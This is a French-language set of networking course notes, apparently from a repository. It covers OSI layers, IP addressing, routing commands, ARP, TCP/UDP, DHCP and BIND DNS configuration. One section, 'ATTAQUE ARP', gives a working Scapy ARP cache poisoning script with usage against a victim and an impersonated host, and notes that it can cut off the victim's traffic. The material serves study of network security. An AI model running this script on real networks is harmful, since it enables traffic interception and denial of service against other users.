


###MODELE OSI :

  
---

* ###Couche 7
  * Nom : **application**
  * Rôle : RAS.
  * Rôle secondaire : RAS.
  * Matériel associé : le proxy.
---
* ###Couche 6
  * Nom : **presentation**
---  
* ###Couche 5
  * Nom : **session**
---
* ###Couche 4
  * Nom : **transport**
  * Rôle : gérer les connexions applicatives.
  * Rôle secondaire : garantir la connexion.
  * Matériel associé : RAS.
  * Protocole : TCP , UDP
  
En couche 4 ladresse utilisée est le Port ( l'adresse d'une application sur une machine ).  
Les ports sont codés en décimal sur deux octets ( 0 à 65535)   
* web : 80
* mail : 25
* ssh : 22
* imap : 143
* proxy : 8080
* https : 443
* Counterstrike : 27015
* ftp : 20/21
* dns : 53

---
* ###Couche 3
  * Nom : **réseau**
  * Rôle : interconnecter les réseaux entre eux.
  * Rôle secondaire : fragmenter les paquets.
  * Matériel associé : le routeur.
  * Protocole : IP, ICMP , ARP
  
La couche 3 va donc me permettre de joindre n'importe quel réseau sur Internet, en passant à travers d'autres réseaux.   
Ma connexion à une machine sur un autre réseau se fera à travers des réseaux, de proche en proche.

traceroute ( permet d'indiquer par quelles machines nous passons pour aller d'un point à un autre sur Internet ) -> Linux  
tracert -> Windows

L'adresse IP est l'adresse du réseau ET de la machine  
Elle est codée sur 4 octets (soit 32 bits, soit 2^32 possibilites) en IPV4  
Masque de Sous-reseau :  (contiguïté des bits)
* 00000000 -> 0
* 10000000 -> 128
* 11000000 -> 192
* 11100000 -> 224
* 11110000 -> 240
* 11111000 -> 248
* 11111100 -> 252
* 11111110 -> 254
* 11111111 -> 255

Ecriture CIDR : 
* 192.168.0.1/255.255.255.0 -> 192.168.0.1/24
* 192.168.0.1/255.255.240.0 -> 192.168.0.1/20

La première adresse d'une plage est l'adresse du réseau lui-même.  
La dernière adresse d'une plage est une adresse spéciale, l'adresse de broadcast.

RFC 79 ( Request For Comment) -> protocole IP  
RFC 1918 -> Cette RFC précise des plages d'adresses privees, soit des réseaux, qui ont une utilité particulière  
* 10.0.0.0/255.0.0.0
* 172.16.0.0/255.240.0.0
* 192.168.0.0/255.255.0.0

**Protocole ICMP ( internet control message protocol ) :**  contrôler les erreurs de transmission, et débogage réseau

---
* ###Couche 2
  * Nom : **liaison de données**
  * Rôle : connecter les machines entre elles sur un réseau local.
  * Rôle secondaire : détecter les erreurs de transmission.
  * Matériel associé : le switch, ou commutateur.
  * Protocole : ETHERNET, ARP
  
L'adresse MAC est l'adresse d'une carte réseau.
Elle est unique au monde pour chaque carte.
Elle est codée sur 6 octets (soit 48 bits, soit 2^48 possibilites).  
3 premiers octets : achetes par le constructeur  
3 derniers octets : géré par le constructeur

ff:ff:ff:ff:ff:ff -> **adresse de broadcast**

##### SWITCH :
Analyse le contenu de la couche 2  
Cree une table MAC (Medium-Access-Control) ou table CAM (Content-Addressable-Memory) afin d'aiguiller les trames   
TTL : time to live  
La table MAC est effacée à chaque reboot du switch

**Un VLAN est la capacité de séparer des ports d'un switch dans des réseaux différents.**

Boucle de Commutation ( on offre 2 chemins differents pour une trame ) --> Tempete de Broadcasts

---
* ###Couche 1
  *  Nom : **physique**
  * Rôle : offrir un support de transmission pour la communication.
  * Rôle secondaire : RAS.
  * Matériel associé : le hub, ou concentrateur en français.

**Chaque couche est indépendante , chaque couche ne peut communiquer qu'avec une couche adjacente.**  
**Les couches réseau ( 1 à 4 ) offrent le service de communication à la couche applicative ( 7 )**

---
###COMMANDES RESEAU :
        
        # ------------------------------------------------
        # Windows:
        # ------------------------------------------------
        tracert www. # trace la route d'une adresse
        
        trace route # affiche la table de routage
        netstat -r # affiche la table de routage
        
        
        # ------------------------------------------------
        # Linux:
        # ------------------------------------------------
        traceroute www. # trace la route d une adresse
        
        
        route -n # affiche la table de routage
        ip route # affiche la table de routage
        route del default # suppression route par defaut
        route del -net 192.168.10.0 netmask 255.255.255.0 # suppression route
        route add default gw 10.0.0.254 # ajout de route par defaut
        route add -net 192.168.10.0 netmask 255.255.255.0 gw 192.168.11.254 # cree une route
        
        
        ifconfig eth0 10.0.0.1 netmask 255.255.255.0 # modifie l adresse d une machine
        ifconfig eth0:0 192.168.11.254 netmask 255.255.255.0 # ajout adresse , création interface virtuelle
        
        cat /proc/sys/net/ipv4/ip_forward # affiche la valeur ip_forward
        sysctl net.ipv4.ip_forward # affiche la valeur ip_forward
        
        echo 1 > /proc/sys/net/ipv4/ip_forward # transforme la machine en routeur
        sysctl -w net.ipv4.ip_forward=1
        
        /etc/sysctl.conf: # permanent setting
        net.ipv4.ip_forward = 1
        sudo sysctl -p
        
        tcpdump -i eth0 icmp # sniffer     
---       
### DIVERS :

**DNS over HTTPS :** chiffre le trafic DNS pour empêcher un tiers d’observer les requêtes DNS que vous générez.
( dans firefox : options -> parametres reseau)
**RFC 7858 :** Support de DNS sur TLS ( transport layer security)

Liste Résolveurs DNS ( compatibles DNS-over-HTTPS ) :

* AdGuard – <https://dns.adguard.com/dns-query>
* BlahDNS – <https://doh-fi.blahdns.com/dns-query>
* Cloudflare –  <https://cloudflare-dns.com/dns-query>
    * Pour IPv4: 1.1.1.1 et 1.0.0.1
    * Pour IPv6: 2606:4700:4700::1111 et 2606:4700:4700::1001
    * Test Securite : <https://www.cloudflare.com/ssl/encrypted-sni/>
* CZ.NIC
* dnswarden – <https://doh.dnswarden.com/uncensored>
* Foundation for Applied Privacy – <https://doh.applied-privacy.net/query>
* NextDNS – <https://dns.nextdns.io/<config_id>
* NixNet
* PowerDNS – <https://doh.powerdns.org>
* Quad9 – <https://www.quad9.net/> 
    * 9.9.9.9 ou 2620:fe::fe - Blocklist, DNSSEC, No EDNS Client-Subnet
    * 9.9.9.10 ou 2620:fe::10 - No blocklist, no DNSSEC, send EDNS Client-Subnet

* SecureDNS – https://doh.securedns.eu/dns-query
* Snopyta
* UncensoredDNS 

---
### PROTOCOLE ETHERNET :

Datagramme ETHERNET : **Adresse MAC DST** - **Adresse MAC SRC** - **Protocole de Couche 3** - Donnees - **CRC**   

Entete Ethernet : 18 Octets  
Taille minimale : 64 Octets  
Taille maximale : 1518 Octets
---
### PROTOCOLE ARP :

ARP est un protocole qui permet d'associer une adresse MAC de couche 2 à une adresse IP de couche 3.  
Requete envoyée en Broadcast  
La table ARP dynamique ( TTL ) va associer adresse IP et adresse MAC correspondante.  

       arp -an # affiche la table arp sous linux
       arp -a # ... sous windows
       
#### ATTAQUE ARP 

Installation de Scapy ( framework ) :

    sudo apt install scapy
    ou
    pip install scapy
##### /root/arpcachepoison.py :

    #!/usr/bin/python
    # Python arp poison example script
    # Written by aviran
    # visit for more details aviran.org
    
    from scapy.all import *
    import sys
    
    def get_mac_address():
        my_macs = [get_if_hwaddr(i) for i in get_if_list()]
        for mac in my_macs:
            if(mac != "00:00:00:00:00:00"):
                return mac
    Timeout=2
    
    if len(sys.argv) != 3:
        print "Usage: arp_poison.py HOST_TO_ATTACK HOST_TO_IMPERSONATE"
        sys.exit(1)
    
    my_mac = get_mac_address()
    if not my_mac:
        print "Cant get local mac address, quitting"
        sys.exit(1)
    
    packet = Ether()/ARP(op="who-has",hwsrc=my_mac,psrc=sys.argv[2],pdst=sys.argv[1])
    
    sendp(packet, loop=1, inter=0.2)

Rendre executable le script :

    chmod 755 arpcachepoison.py 

Utilisation :

    ./arpcachepoison.py 192.168.0.1 192.168.0.254 # addr1=victime addr2=usurpation
    
**Si l'on n'‌active pas le routage , les paquets sont jetés à la poubelle et cela coupe donc toute possibilité de communication.**

---
### PROTOCOLE ICMP :

Le protocole ICMP est donc un "complément" des protocoles de la pile TCP/IP  
Il permet de comprendre plus facilement ce qui se passe sur un réseau quand il y a un problème.

* ICMP sert à indiquer automatiquement des erreurs quand elles surviennent 
    * un code égal à 0 me dira que le réseau n'est pas accessible (globalement, qu'un routeur sur le chemin n'a pas de route pour le réseau destination)
    * un code égal à 1 me dira que la machine n'est pas accessible (une requête ARP a sûrement été envoyée par le dernier routeur, mais personne n'y a répondu)
    * un code égal à 3 indique que le destinataire n'est pas accessible
    * un ode égal à 5 ( ICMP redirect) indique qu'il y a un chemin plus court vers la destination
    * un code égal à 11 ( TTL exceeded ) indique que la durée de vie du paquet a expiré.
    
* ICMP peut fournir des outils pour étudier un problème réseau.
    * Le ping est en fait la combinaison de deux types de messages ICMP, un **echo request** de type 8 et un **echo reply** de type 0. 
    * Le traceroute fait varier la valeur du TTL ( 1,2,3,4...)
        * A chaque TTL=0 il devra jeter le message à la poubelle et me renvoyer un message d'erreur ICMP TTL exceeded. Ainsi, je pourrai connaître son adresse IP 

---

### PROTOCOLE TCP :

Un protocole fiable mais sans nécessité de rapidité  
Chaque paquet envoyé doit être acquitté par le receveur, qui en réémettra un autre s'il ne reçoit pas d'accusé de réception.  
On dit alors que c'est un protocole connecté.

* L'établissement de la connexion TCP se fait par l'échange de trois paquets ( SYN, **SYN**+ACK, **ACK** )     
C'est pour cela qu'on l'appelle **Three Way Handshake**  
* Le flag ACK sera positionné sur tous les paquets pendant la communication.  
* Fin de communication ( FIN+**ACK**, **FIN**+ACK, **ACK**)

Datagramme TCP : **Port Source** - **Port Destination** - **???** - **Flags** - **???** - **Checksum** - **???** - Données  
L'en-tête fait 20 octets, comme celui de la couche 3.  
* Flags :
    * SYN : Initiates a connection
    * ACK : Acknowledges received data
    * FIN : Closes a connection
    * RST : Aborts a connection in response to an error
    * PSH
    * URG

---
### PROTOCOLE UDP :

Un protocole rapide sans nécessité de fiabilité
Les paquets sont envoyés dès que possible, mais on se fiche de savoir s'ils ont été reçus ou pas.   
On dit qu'UDP est un protocole non-connecté.  

Datagramme UDP :  **Port Source** - **Port Destination** - **Longueur Totale** - **Checksum** - Données  
Entete de 4 informations de 2 octects

Utilisation : telephone (VoIP ou ToIP), radio, streaming...**et aussi DNS et SNMP*

---

### SERVICE DHCP ( Dynamic Host Configuration Protocol) :

Un protocole pour distribuer des adresses IP  
La trame permettant de trouver un serveur DHCP est une trame **DHCPDISCOVER** ( Broadcast)  
Une fois que notre serveur DHCP reçoit le **DHCPDISCOVER**, il va renvoyer une proposition, c'est un **DHCPOFFER**.  
Il va proposer une adresse IP, un masque ainsi qu'une passerelle par défaut et parfois un serveur DNS  
Le client (votre machine) répond par un **DHCPREQUEST**. Celui-ci est aussi envoyé en broadcast et sert à prévenir quelle offre est acceptée.   
Le serveur DHCP dont l'offre a été acceptée valide la demande et envoie un **DHCPACK** qui valide l'allocation du bail.  

  

##### INSTALLATION D UN SERVEUR DHCP :

    apt-get install isc-dhcp-server

Ce serveur est géré par deux fichiers de configuration :
* /etc/default/isc-dhcp-server 
    * Vous pouvez faire écouter votre serveur sur plusieurs interfaces, il suffit juste de les séparer par un espace : INTERFACES="eth0 eth1 eth3"
* /etc/dhcp/dhcpd.conf

        netstat -anup |grep dhcp # vérifie que le serveur DHCP est bien en écoute
        udp        0      0 0.0.0.0:67              0.0.0.0:*                           956/dhcpd
        
        dhclient eth0 # forcer une demande DHCP
---        
### SERVICE DNS ( Domain Name System ):

Un nom de domaine se décompose en plusieurs parties :  

  

Top Level Domain :
* TLD nationaux :   fr, it, de, es, ...
* TLD génériques :  com, org, net, biz, ...

Chaque "partie" est appelée label et l'ensemble des labels constitue un **FQDN : Fully Qualified Domain Name**.  
Ce FQDN est unique. Par convention, un FQDN se finit par un point, car au-dessus des TLD il y a la racine du DNS, tout en haut de l'arbre.   
Ce point disparaît lorsque vous utilisez les noms de domaine avec votre navigateur, mais vous verrez qu'il deviendra très important lorsque nous configurerons notre propre serveur DNS.

www.google.fr -> Ici, www est le nom d'une machine dans le domaine google.fr  
Au niveau DNS, www.google.fr n'est pas un FQDN, car il manque le point à la fin.  

#### INSTALLATION D UN SERVEUR DNS  ( avec le serveur de noms : BIND ):

    sudo apt install bind9
    
Fichiers de configuration :
* /etc/bind/named.conf :   Nous devons tout d'abord déclarer à notre serveur quels seront les noms de domaine qu'il va devoir gérer, on appelle ça des zones  

        zone "reseau.fr" {
                        type master;
                        file "/etc/bind/db.reseau.fr";
                        allow-transfer { 192.168.0.2; };
                };
                
* /etc/bind/db.nomZone :  Ensuite, nous devrons configurer chacune de ces zones.  
        
        cp /etc/bind/db.local /etc/bind/db.reseau.fr # Afin d'avoir une configuration "basique", vous pouvez faire une copie de /etc/bind/db.local
        vim /etc/bind/db.reseau.fr

Dans ce fichier de zone, nous allons indiquer des enregistrements. Il en existe de plusieurs types :

* A : c'est le type le plus courant, il fait correspondre un nom d'hôte à une adresse IPv4 ;
* AAAA : fait correspondre un nom d'hôte à une adresse IPv6 ;
* CNAME : permet de créer un alias pointant sur un autre nom d'hôte ;
* NS : définit le ou les serveurs DNS du domaine ;
* MX : définit le ou les serveurs de mail du domaine ;
* PTR : fait correspond une IP à un nom d'hôte. Il n'est utilisé que dans le cas d'une zone inverse, que nous verrons plus loin ;
* SOA : donne les infos de la zone, comme le serveur DNS principal, l'adresse mail de l'administrateur de la zone, le numéro de série de la zone et des durées que nous détaillerons.

        $TTL 604800     ; 1 semaine # durée pendant laquelle les informations sont conservées en cache coté client
        $ORIGIN reseau.fr. ; valeur de @
        @       IN SOA  ns1.reseau.fr. admin.reseau.fr. ( ; SOA : Start of Authority 
                                        2013020905 ;serial
                                        3600       ; refresh (1 hour)
                                        3000       ; retry (50 minutes)
                                        4619200    ; expire (7 weeks 4 days 11 hours 6 minutes 40 seconds)
                                        604800     ; minimum (1 week)
                                        )

        @               IN      NS      ns1.reseau.fr.
        @               IN      NS      ns2
        @               IN      MX      10 mx1
        @               IN      MX      20 mx2
        ns1             IN      A       192.168.0.1
        ns2             IN      A       192.168.0.2
        mx1             IN      A       192.168.0.3
        mx2             IN      A       192.168.0.4
        tuto            IN      A       192.168.0.5
        www             IN      A       192.168.0.6
        blog            IN      CNAME   www

---
Première chose, quand vous possédez un domaine, vous devez avoir deux serveurs DNS, un serveur primaire et un serveur secondaire.  
Ceci est nécessaire pour pouvoir garantir que si l'un tombe en panne, le second permettra toujours d'accéder à vos serveurs.  

Le domaine que nous allons configurer sera : **reseau.fr**.

Ce nom de domaine sera géré par deux serveurs dns :
* ns1.reseau.fr - 192.168.0.1 sera notre serveur maître
* ns2.reseau.fr - 192.168.0.2 sera notre serveur esclave

Les adresses email de ce nom de domaine seront gérées par deux serveurs de messagerie :

* mx1.reseau.fr - 192.168.0.3
* mx2.reseau.fr - 192.168.0.4

Ce nom de domaine possédera deux machines :
* **tuto.reseau.fr** - 192.168.0.5
* **www.reseau.fr** - 192.168.0.6.

Il existera aussi une autre machine, **blog.reseau.fr**, qui sera un alias de **www.reseau.fr**  
( Un alias est une association entre un nom de machine et un autre nom de machine.)

Pour chaque domaine, il doit y avoir un serveur de messagerie qui permet de recevoir des mails pour les adresses de notre domaine.  

---

###GNS3 ( linux ) :

    sudo add-apt-repository ppa:gns3/ppa
    sudo apt update                                
    sudo apt install gns3-gui gns3-server